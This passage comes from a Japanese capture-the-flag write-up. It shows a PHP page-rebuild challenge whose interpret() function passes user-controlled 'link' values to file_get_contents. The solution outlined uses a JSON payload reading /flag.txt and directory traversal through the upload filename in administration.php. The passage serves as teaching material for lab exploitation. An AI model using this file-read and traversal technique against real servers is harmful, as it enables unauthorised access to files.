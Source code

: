 ```php:rebuild/index.php

function interpret($section) {
    $content = null;

    switch ($section->type) {
        case "text":
            $content = $section->value;
            break;
        case "link":
            $content = file_get_contents($section->value);
            break;
    }

    return "<$section->tag>$content</$section->tag>";
}

echo "<div class='container my-8 text-center'/>";

foreach ($pageObject->sections as $section) {
    echo interpret($section);
}

echo "</div>";
```

フラグは`/flag.txt`にある。

:::

### 解法

`/rebuild/?page=`で次のようなファイルをアップロードできれば、`file_get_contents`を利用してフラグを入手できることがわかる。

```json
{
  "sections": [
    {
      "type": "link", 
      "tag": "i", 
      "value":  "/flag.txt"
    }
  ]
}
```

したがって、ファイルアップロード機能を利用してこのようなjsonをアップロードすることを考える。

`administration.php`でアップロードされるファイル名は次のように定義されるため、拡張子が`.magic`になってしまうが、ディレクトリトラバーサルが可能である。

```php
$uploadFile = "./magicians/" . $_POST["name"] . ".magic";
```

また、`/rebuild`で指定できるファイル名は次の形式であることをチェックする。
